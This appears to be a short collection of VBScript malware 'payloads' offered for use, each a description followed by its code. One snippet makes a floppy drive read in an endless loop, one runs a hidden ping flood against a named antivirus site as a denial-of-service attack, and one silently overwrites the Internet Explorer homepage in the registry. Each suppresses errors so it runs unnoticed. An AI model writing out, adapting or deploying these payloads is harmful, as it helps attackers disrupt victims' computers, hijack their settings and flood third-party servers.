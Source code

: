--------Loop floppy disk read--------

Description: This payloads has to be one of the most annoying
non-damaging payloads that I can think of. It simply makes the
floppy disk drive read at an infinate loop.

Here is the code:
-------------------------------------

On Error Resume Next
Set fso = CreateObject("Scripting.FileSystemObject")
Set DriveA = fso.GetDrive("A:")
Do
If DriveA.IsReady Then DiskReady = True
Loop

-------------------------------------



--------DoS (Denial of Service) attack--------

Description: This code basically Pingfloods a specific webpage,
Link, FTP or whatever. However, just one computer doing a Pingflood
will not cause much damage, but if at least 30 computers were doing it,
it would.

Here is the code:
-------------------------------------

On Error Resume Next
Set wsc = CreateObject("WScript.Shell")
wsc.Run "Ping.exe -t -l 916 www.av.com", 0, False

-------------------------------------



--------Change IE (Internet Explorer) homepage--------

Description: This just changes the homepage of IE using the registry.

Here is the code:
-------------------------------------

On Error Resume Next
Set wsc = CreateObject("WScript.Shell")
wsc.RegWrite "HKCU\Software\Microsoft\Internet Explorer\Main\Start Page", "http://www.wescam.u"

-------------------------------------



